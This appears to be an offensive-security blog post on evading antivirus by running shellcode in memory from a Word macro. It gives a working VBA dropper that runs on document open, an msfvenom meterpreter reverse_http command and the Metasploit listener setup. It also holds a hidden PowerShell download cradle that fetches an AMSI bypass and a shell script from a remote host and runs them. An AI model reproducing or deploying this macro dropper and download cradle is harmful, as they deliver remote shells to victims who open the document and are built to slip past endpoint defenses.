 ```yaml
---
layout: post
title: Running ShellCode in Memory | AV Evasion – VBA Version 

---
```

![](/images/2021-08-13-VBAShell/0.png)

If you try to download an executable to get a reverse shell on a system, it most likely will be detected and blocked by either host-based network monitoring system or AV/EDR sweeps it off, so this post we will discuss how to be stealthier and execute shell code in memory.

For the sake of this example, I am going to use a word macro as a dropper to do this.

Although it may seem complicated, all we need to do is:

***1) Use something to allocate unmanaged memory***

***2) Copy our shell code into our allocated memory from step 1***

***3) Create execution thread***

I have gone about doing these two ways:

1) Using VBA

2) Using Powershell

In this post, we will discuss how we can get this to work with VBA:

For this, we will use win32 APIs from kernal32.dll:

***1) VirtualAlloc***

***2) RtlMemory***

***3) CreateThread***



Let’s just be optimistic and generate our shellcode using msfvenom:



```
msfvenom -p windows/meterpreter/reverse_http LHOST=x.x.x.x LPORT=443 EXITFUNC=thread -f vbapplication

```


**Couple of things to note here:**

a)	We are using 32bit arc for the meterpreter shell since MS word by default runs on 32-bit Arc

b)	We are using “thread” as exit func instead of “process” to avoid our MS word getting terminated when shell exits


***Read the MSDN docs to understand how the function used works:***

1)	[VirtualAlloc]( https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
2)	[rtlmovememory](https://docs.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory)
3)	[Create Thread]( https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread )


**The whole VBS looks like this:**

```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
Dim buf As Variant
Dim addr As LongPtr
Dim counter As Long
Dim data As Long
Dim res As Long

buf = Array(insert shell code here)

addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

For counter = LBound(buf) To UBound(buf)
data = buf(counter)
res = RtlMoveMemory(addr + counter, data, 1)
Next counter

res = CreateThread(0, 0, addr, 0, 0, 0)

End Function

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub

```



![](/images/2021-08-13-VBAShell/1.png)

Once you have this, save the word document in macro format such as .doc or .docm

Set up the listener:

```
set payload windows/meterpreter/reverse_http
set LHOST x.x.x.x
set LPORT 443
set EXITFUNC thread
set set ReverseListenerBindAddress <internal IP>
exploit
```

Once, the victim opens the macro document the shell code runs in memory and we get a reverse shell:



![](/images/2021-08-13-VBAShell/2.png)


![](/images/2021-08-13-VBAShell/3.png)


Now this is a low-profile technique, but there are some issues with this:

***1)	The shell code present in word document which is saved on hard drive might get detected by the AV***

***2)	Whenever the word file is closed the session get terminated since the SPAWNED process is a child of word file.***

## How can we improve these and make things more efficient?

I will write up on this in a different post, but I will give the folks reading this post a chance to try it for themselves, so here are some clues:

***1)	Use Powershell for this, Powershell cannot interact with win32 API directly, so use C# with the help of .NET framework (DllImportAttribute class).***

***2)	Use P/Invoke APIs contained in the System.Runtime.InteropServices and System namespaces (changing C to C# datatype)***

Ref: [P/Invoke](www.pinvoke.net )

***3)	Now use Add-Type in PowerShell to compile and create object***

Reference: [Add-Type Example](http://adamringenberg.com/powershell2/Add-Type/ )

***4)	Use .NET Copy method to copy the shellcode into memory***

***5)	Finally, before running the shell code in memory make sure to use an AMSI bypass to run first (use PowerShell download cradle)***

Something like this:

```
Sub ShellCodeRunner() 

Dim str As String
  
str = "powershell IEX (New-Object Net.WebClient).DownloadString('http://X.X.X.X/AmsiBypass.ps1'); IEX (New-Object Net.WebClient).DownloadString('http://X.X.X.X/Shell.ps1')"
Shell str, vbHide End Sub
```

You just need to craft the content of shell.ps1 as your homework :)























